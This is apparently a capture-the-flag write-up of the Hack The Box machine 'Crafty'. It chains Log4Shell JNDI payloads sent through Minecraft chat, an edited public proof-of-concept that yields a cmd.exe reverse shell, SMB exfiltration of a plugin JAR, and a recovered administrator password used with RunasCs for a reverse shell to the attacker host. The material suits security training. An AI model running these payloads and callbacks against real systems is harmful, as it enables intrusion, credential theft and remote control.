# HTB - Crafty

**IP Address:** `10.129.230.193`  
**OS:** Windows (Microsoft IIS 10.0; Minecraft Java server)  
**Difficulty:** Easy  
**Tags:** #Windows #IIS #Minecraft #Log4j #Log4Shell #JD-GUI #RunasCs #PrivilegeEscalation

> **Vault note:** This README matches the solved run documented in `notes/ctf/htb-crafty.md`. Redact flags, hashes, and passwords if you publish a public writeup.

---
## Synopsis

Crafty is an easy Windows machine that exposes a marketing site on IIS and a Minecraft server on TCP 25565. Web enumeration confirms virtual host names and yields little beyond a reference to `play.crafty.htb`. The Minecraft surface accepts an offline-mode client session without a password, and an in-game chat payload confirms Log4j-style JNDI behavior. A public Log4j proof-of-concept chain is adapted for Windows (`cmd.exe`), producing an initial shell. A plugin artifact copied from the server’s Minecraft tree contains recoverable secrets that map to the local `administrator` account; those credentials are exercised with RunasCs to spawn a privileged command session and capture the administrator proof.

---
## Skills Required

- Basic TCP scanning and service identification (`nmap`)
- Web fingerprinting (`whatweb`) and optional directory discovery (`gobuster`)
- Interacting with Minecraft using a console client and understanding offline-mode login behavior
- Log4Shell exploitation workflow (LDAP callback validation, Java tooling, reverse shell handling)
- Windows post-exploitation basics (`certutil`, copying files to UNC paths, running downloaded tooling)

## Skills Learned

- Correlating IIS virtual hosts with game-server attack surface when the web tier is mostly informational
- Adapting Log4j exploit payloads for Windows targets (`cmd.exe` instead of Unix shells)
- Recovering credentials from Java plugin artifacts with a decompiler UI (`jd-gui`)
- Using RunasCs to run processes in another user context and to obtain a reverse shell as `administrator`

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is alive using ICMP:

```bash
ping -c 1 10.129.230.193
```



---
### 1.2 Port Scanning

Scan all TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.230.193 -oG allPorts
```





Extract the open ports:

```bash
extractPorts allPorts
```


Open ports (this run):

`80,25565`

---
### 1.3 Targeted Scan

Run a deeper scan on the identified ports with version detection and default scripts:

```bash
nmap -sCV -p80,25565 10.129.230.193 -oN targeted
cat targeted
```




**Findings:**

| Port(s) | Service | Notes |
|---|---|---|
| 80/tcp | Microsoft IIS httpd 10.0 | Redirects toward `crafty.htb` (see `whatweb` / browser) |
| 25565/tcp | Minecraft | Java edition server; relevant for in-game Log4j-era behavior |

Add the hostnames to `/etc/hosts` so IIS virtual hosting resolves locally:

```text
10.129.230.193 crafty.htb play.crafty.htb
```

---
## 2. Service Enumeration

### 2.1 Web fingerprinting and virtual hosts

IIS responds on port 80 and redirects to a hostname, so fingerprinting should be done both by IP and by vhost after updating `hosts`.

```bash
whatweb http://10.129.230.193
```



**Observed (representative):**

- `http://10.129.230.193` → `301`, **Microsoft-IIS/10.0**, `RedirectLocation[http://crafty.htb]`
- `http://crafty.htb` → `200`, IIS 10.0, jQuery 3.6.0, title **Crafty - Official Website**

---
### 2.2 Web content discovery and public pages

The IIS site is thin, but it is still worth running a quick directory pass and manually reviewing the homepage for additional hostnames.

```bash
gobuster dir -u http://crafty.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200
```



The public site mentions `play.crafty.htb`, but browsing it in a normal browser session redirected back to the main site in this run, so the interesting external surface remained the Minecraft listener on `25565`.


---
### 2.3 Minecraft console client (offline login)

A console client is faster than a full game client for chat-based testing. This run used a **Minecraft Console Client** release that still supports offline login without a Microsoft account flow (see `notes/ctf/htb-crafty.md` for the pinned release URL).

Move the downloaded binary into your working directory, mark it executable, and launch it:

```bash
chmod +x minecraft_server
./minecraft_server
```

Use an arbitrary username and leave the password empty so the client operates in offline mode and can attach to the server console/chat surface.



---
## 3. Foothold

### 3.1 Confirming Log4j JNDI/LDAP interaction

With an LDAP listener reachable from the victim, send a JNDI lookup string through the Minecraft chat/console path used in this run.

```text
${jndi:ldap://10.10.15.206/test}
```



If the listener shows activity, treat the Minecraft logging pipeline as a viable Log4Shell-style entry point and move to a full exploit chain.

---
### 3.2 Exploit chain setup (`kozmer/log4j-shell-poc`)

This run followed the public repository `https://github.com/kozmer/log4j-shell-poc`. The PoC expects a **JDK 1.8.0_20** layout; install/unpack it and name the directory exactly as `poc.py` expects (your screenshot should show the final folder name on disk).

```bash
git clone https://github.com/kozmer/log4j-shell-poc.git
cd log4j-shell-poc
```





Because the target is Windows, the exploit payload must spawn **`cmd.exe`**, not a Unix shell. In the Java exploit source, update the command string accordingly (this run changed a `String cmd="..."` assignment from a Unix shell to `cmd.exe`).

```bash
# Example edit (exact file/line depends on repo version):
# String cmd="/bin/bash";
# String cmd="cmd.exe";
```



Start the PoC with your attacker IP and listener ports, keep a `netcat` listener ready on the chosen callback port, then paste the JNDI string printed by the tool into Minecraft.

```bash
python3 poc.py --userip 10.10.15.206 --webport 8000 --lport 443
```

Example emitted payload (values vary by run):

```text
${jndi:ldap://10.10.15.206:1389/a}
```





You should land in a Windows command context from which you can read the user proof.



🏁 **User flag obtained**

---
## 4. Privilege Escalation

### 4.1 Exfiltrating the Minecraft plugin artifact over SMB

From the foothold shell, locate the Minecraft server tree and inspect `plugins` for interesting artifacts (this run focused on a plugin file). Host an SMB share on your attacker machine and copy the plugin from the victim into the share using a UNC path (exact source path should match what you see in your `dir` output).

```bash
impacket-smbserver share . -smb2support
```

```cmd
copy <plugin-path-from-server>\PLUGIN.jar \\10.10.15.206\share\
```



---
### 4.2 Decompiling the plugin to recover credentials

Open the recovered JAR locally and review compiled code/strings for hard-coded secrets. This run used `jd-gui`.

```bash
jd-gui &> /dev/null & disown
```



The decompiled content suggested a localhost-oriented connection string material and exposed a password value (`s67u84zKq8IXw` in this run).




**Recovered (this run):** `administrator` context password `s67u84zKq8IXw` (redact before publishing if needed).

---
### 4.3 Administrator access via RunasCs

Transfer `RunasCs` to the victim using `certutil` (this run pulled the v1.5 release from `https://github.com/antonioCoco/RunasCs/releases/tag/v1.5`).

```cmd
certutil.exe -f -urlcache -split http://10.10.15.206/RunasCs.exe RunasCs.exe
```



Validate the recovered password by executing a command as `administrator` with RunasCs (for example a `whoami` check), then spawn a reverse shell in that identity to work comfortably.

```cmd
.\RunasCs.exe administrator s67u84zKq8IXw cmd.exe /c whoami
```



```cmd
.\RunasCs.exe administrator s67u84zKq8IXw cmd.exe -r 10.10.15.206:443
```



🏁 **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. Identify **80/tcp (IIS)** and **25565/tcp (Minecraft)**; map `crafty.htb` / `play.crafty.htb` in `hosts`.
2. Confirm the Minecraft console path accepts offline chat input; validate **Log4j JNDI** behavior via an LDAP callback.
3. Run **`kozmer/log4j-shell-poc`** with **JDK 1.8.0_20** and a Windows payload (**`cmd.exe`**), then trigger the printed JNDI string in-game to catch a shell.
4. Exfiltrate a **plugin JAR** from the Minecraft server directory over an **attacker-hosted SMB share**.
5. Decompile the plugin (**`jd-gui`**) to recover **`administrator`** credentials.
6. Download **RunasCs** with **`certutil`**, validate context, and obtain an **`administrator`** reverse shell for the final proof.

---
## Defensive Recommendations

- Patch Minecraft server logging dependencies for **Log4Shell (CVE-2021-44228)** and related hardening (vendor guidance / modern server builds).
